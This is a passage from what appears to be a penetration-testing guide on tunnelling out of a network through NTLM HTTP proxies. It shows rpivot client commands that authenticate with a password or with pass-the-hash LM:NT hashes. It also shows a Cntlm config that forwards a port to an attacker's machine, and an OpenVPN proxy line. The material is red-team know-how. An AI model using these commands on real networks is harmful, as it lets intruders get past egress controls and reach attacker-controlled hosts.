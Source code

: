 #### Rpivot

I already mentioned this tool in the NAT traversal section. It also supports connecting to the outside world via NTLM HTTP proxies. Server side command remains intact, use client-side command as follows:

```
python client.py --server-ip <rpivot_server_ip> --server-port 9999\
--ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --password P@ssw0rd
```

Or if you have LM:NT hashes instead of password:

```
python client.py --server-ip <rpivot_server_ip>\
--server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```

#### Cntlm

[Cntlm](http://cntlm.sourceforge.net/) is the tool of choice for running any non-proxy aware programs over NTLM-proxy. Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. Here's a barebones config example to forward port 443 (this port is most likely to be allowed through the proxy):


```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```

Run it:

`cntlm.exe -c config.conf`

Or if you're on Linux:

`./cntlm -c config.conf`

Now, given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.

#### OpenVpn over HTTP proxy

[OpenVpn](https://openvpn.net/index.php/open-source/documentation/howto.html) is huge so its configuration from the ground up is out of scope of this post. Just a quick mention - it also supports tunneling tcp connections over NTLM proxies. Add this line to your config file:

`http-proxy <proxy_ip> 8080 <file_with_creds> ntlm`

Credential file should contain username and password on separate lines. And, yes, you'll need root.
